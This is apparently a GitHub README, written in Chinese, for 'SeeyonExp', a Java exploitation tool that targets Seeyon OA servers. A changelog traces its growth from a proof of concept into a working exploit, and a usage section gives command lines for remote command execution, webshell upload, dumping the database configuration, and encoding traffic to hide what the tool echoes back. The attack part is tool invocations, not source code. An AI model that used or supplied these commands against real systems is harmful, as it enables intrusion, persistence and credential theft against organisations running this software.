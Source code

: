 # SeeyonExp

### 0x00 开发日志

2021-11-14 增加 maven打包时，将用户id 打包进jar包，使用自定义方法修改 例如：Built-By: Apache Maven
2021-11-14 fix 读取数据库回显未删除生成的txt代码错误
2021-3-13 V0.9 增加多个受影响版本，修复HTTPS无法指定端口bug

2021-2-2 V0.8 新增影响版本v6.1

2021-1-10 V0.7 增加识别版本后无损检测漏洞功能，有那么点漏扫的意思

2020-11-11 V0.6 增加数据库配置文件读取功能

2020-11-10 V0.5 增加回显流量加密功能，Base64与ascii结合，Base65

2020-11-2 V0.4 解决命令执行for循环无法执行for之后Java代码的bug，分号的神奇作用

2020-10-30 V0.3 增加文件上传功能，Base64不编码写入不了，黑名单校验

2020-10-22 V0.2 命令可以在windows与Linux下执行，并支持https

2020-10-20 V0.1 根据POC写出初步利用，可以执行命令，但是仅在windows与http下

### 0x01 使用方法

无损检验是否存在漏洞：java -jar seeyon.jar scan http/https://xxxx.com:port/seeyon 

执行命令：java -jar seeyon.jar http/https://xxxx.com:port/seeyon cmd 

写入shell：java -jar seeyon.jar http/https://xxxx.com:port/seeyon shell srcFile desFile 

读取数据库配置文件：java -jar seeyon.jar http/https://xxxx.com:port/seeyon dataConf 

流量解码：java -jar seeyon.jar decode ciphertext 

流量编码：java -jar seeyon.jar encode Plaintext

使用参考：https://mp.weixin.qq.com/s/NKksirrM5Zg5BGCu4fY8LQ
